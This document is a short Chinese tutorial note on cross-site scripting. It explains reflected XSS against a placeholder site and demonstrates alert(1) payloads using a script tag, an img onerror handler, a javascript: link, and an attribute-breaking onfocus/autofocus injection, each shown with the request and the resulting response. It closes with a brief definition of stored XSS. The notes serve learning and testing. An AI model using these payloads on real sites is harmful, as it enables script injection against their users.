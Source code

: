 # 反射型xss

> 日期: 2022/02/03

> 反射型xss(Reflected XSS)即 "非持久性跨站点脚本攻击" ，原理是将攻击脚本存放于链接中，用户访问恶意链接触发脚本。



## 一、渲染标签触发
__示例__

`https://xxx.com/videoList?title=游戏`

```html
搜索标题: <span>游戏</span>
<input name='title' value='游戏'>
```

### 1. 渲染script标签触发
- 修改请求参数 

```
?title=游戏<ScRiPt>alert(1)</ScRiPt>
```

- 响应结果

```html
搜索标题: <span>游戏<ScRiPt>alert(1)</ScRiPt></span>
<input name='title' value='游戏<ScRiPt>alert(1)</ScRiPt>'>
```

### 2. onerror事件触发
- 修改请求参数

```
?title=游戏<img src='#' onerror=alert(1)>
```

- 响应结果

```html
搜索标题: <span>游戏<img src='#' onerror=alert(1)></span>
<input name='title' value='游戏<img src='#' onerror=alert(1)>'>
```

### 3. 伪协议触发
- 修改请求参数

```
?title=游戏<a href='javascript:alert(1)'>提示管理员更新</a>
```

- 响应结果

```html
搜索标题: <span>游戏<a href='javascript:alert(1)'>提示管理员更新</a></span>
<input name='title' value='游戏<a href='javascript:alert(1)'>提示管理员更新</a>'>
```

## 二、输出点特殊字符被转义情况下，对input标签注入onfocus事件

__示例__

`https://xxx.com/videoList?title=游戏<Script>alert(1)</Script>`

```html
搜索标题: <span>游戏& lt;ScRiPt& gt;alert(1)& lt;/ScRiPt& gt;</span>
<input name='title' value='游戏<Script>alert(1)</Script>'>
```

- 修改请求参数

```
?title=游戏' onfocus='alert(1) autofocus
```

- 响应结果

```html
搜索标题: <span>游戏' onfocus='alert(1) autofocus</span>
<input name='title' value='游戏' onfocus='alert(1) autofocus'>
```



# 存储型xss

> 日期: 2022/02/04

> 存储型xss(Stored XSS)即 "持久性跨站点脚本攻击" ，原理是将攻击脚本存放于网站后台(如:数据库)，每次访问站点都会执行，危害性大，每个访问站点的用户都受影响。






